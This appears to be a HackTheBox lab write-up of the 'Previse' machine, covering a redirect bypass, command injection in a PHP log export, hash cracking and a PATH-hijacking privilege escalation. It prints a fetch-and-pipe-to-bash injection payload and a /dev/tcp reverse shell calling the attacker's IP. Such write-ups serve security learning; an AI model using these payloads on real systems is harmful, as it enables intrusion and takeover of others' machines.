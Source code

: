 ```yaml
---
title: Previse Writeup [HTB]
tags: [HackTheBox, Command Injection]
image: /assets/images/previse/previse.png
published: true
banner: true
---
```


Previse is a Linux based machine that was active since August 7th of 2021 to January 8th of 2022, on this machine we will see that we get a 302 redirect state when accessing to certain pages, but we will get the pages anyways, so we will manipulate the response to be able to send them, having access to some admin panels we will create an account and access to the page, there we will see a backup of the file, making code review we will see a page that is vulnerable to command injection, so we will exploit that vulnerability to get access to the machine, then we will find some credentials to access to the database, there we will find a hash of a user, using john we will crack it and we will see that the password got reused for a user inside the machine, this user can run a script that is vulnerable to PATH hijacking, so we will abuse that to escalate our privileges to root.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.11.104
nmap -sC -sV -p 22,80, -Pn -o scan.txt 10.10.11.104

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports open, SSH and a webpage on port 80, we visit the webpage.

![](/assets/images/previse/website.png)

We use feroxbuster to find any interesting file.

![](/assets/images/previse/feroxbuster.png)

There are some pages that return a 302 and others that return 200, but while testing we see something interesting on the pages that return the code 302.

![](/assets/images/previse/accounts.png)

We see that there is an html body attached with the response, so let's use burp to intercept the response and change it for a 200 and see what is the page that we get when accessing to accounts.php.

![](/assets/images/previse/accs.png)

# Getting Access

We see that even though we got a 302 code the actual page was send, and we don't even need credentials to access here, anyways let's create an account. Once we have an account we can access to files and see a backup file.

![](/assets/images/previse/files.png)

We download the file and start reading the source code, and after reading for a while we see something interesting on line 19 on the file logs.php.

![](/assets/images/previse/logs.png)

It accepts POST requests and passes the parameter delim to an exec function, clearly we can abuse this to get command execution. So we test if we can use `;curl 10.10.16.57:8000/test;`, to get command execution.

![](/assets/images/previse/request.png)

And we get a request.

![](/assets/images/previse/httpser.png)

Now we create a file with a reverse shell command, request it with curl and pipe it to bash, `delim=;curl+10.10.16.57:8000/shell.sh|bash;`, with that we will get a shell inside the machine.

![](/assets/images/previse/shell1.png)

# [](#header-1)Lateral Movement

Reading config.php we find the credentials to access the database.

![](/assets/images/previse/config.png)

Inside the previse database we find some hashes, the one that we are interested in is the one of m4lwhere.

![](/assets/images/previse/pass.png)

We save it inside the file "hash", and we use the command `john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long` to crack the hash, it can take a long time but we get it at the end.

![](/assets/images/previse/john.png)

We can use this password to change to user m4lwhere and retrieve user.txt.

![](/assets/images/previse/shell2.png)

# [](#header-1)Privilege Escalation

We check if we can execute anything with sudo.

![](/assets/images/previse/sudo.png)

We can execute `/opt/scripts/access_backup.sh`, let's read it to see what it does.

![](/assets/images/previse/backup.png)

We see that it runs gzip, we can abuse this to execute our own file, so we go a folder controled by us and create a file called "gzip" that will spawn a bash shell, give it execution permissions and set our PATH so it gets executed first when gzip is called.

![](/assets/images/previse/gzip.png)

The prompt of the shell changes to "#", so we are root, but we can't see the output of our commands, we can fix this spawning another reverse shell, so we execute `bash -i >& /dev/tcp/10.10.16.57/54321 0>&1`, receive the shell, and we have finished with the machine.

![](/assets/images/previse/root.png)